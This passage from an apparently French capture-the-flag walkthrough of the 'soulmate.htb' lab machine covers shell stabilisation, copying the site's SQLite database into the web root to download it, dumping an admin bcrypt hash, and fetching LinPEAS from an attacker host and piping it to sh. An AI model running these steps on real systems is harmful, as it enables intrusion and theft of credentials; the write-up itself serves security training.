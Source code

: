 4. **Stabilisation du shell :**
   ```bash
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```

**Shell obtenu :** `www-data@soulmate:~/soulmate.htb/config`

---

## Élévation de privilèges (www-data → ben)

### Extraction de la base de données

Dans `config.php` :
```php
private $db_file = '../data/soulmate.db';
```

**Exfiltration :**
```bash
cp data/soulmate.db public/
```

Téléchargement via navigateur : `http://soulmate.htb/soulmate.db`

### Analyse de la base de données

Ouverture avec un outil SQLite en ligne :

```sql
SELECT * FROM users;
```

**Résultat :**
```
id: 1
username: admin
password: $2y$12$u0AC6fpQu0MJt7uJ80tM.Oh4lEmCMgvBs3PwNNZIR7lor05ING3v2
is_admin: 1
```

> ℹ️ Hash bcrypt difficile à cracker, on continue l'énumération.

### Énumération avec LinPEAS

**Déploiement :**
```bash
# Sur la machine attaquante :
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
python -m http.server 8080

# Sur la cible :
curl http://10.10.14.115:8080/linpeas.sh | sh
```

**Découverte clé :**
```
root  945  /usr/local/lib/erlang_login/start.escript
```

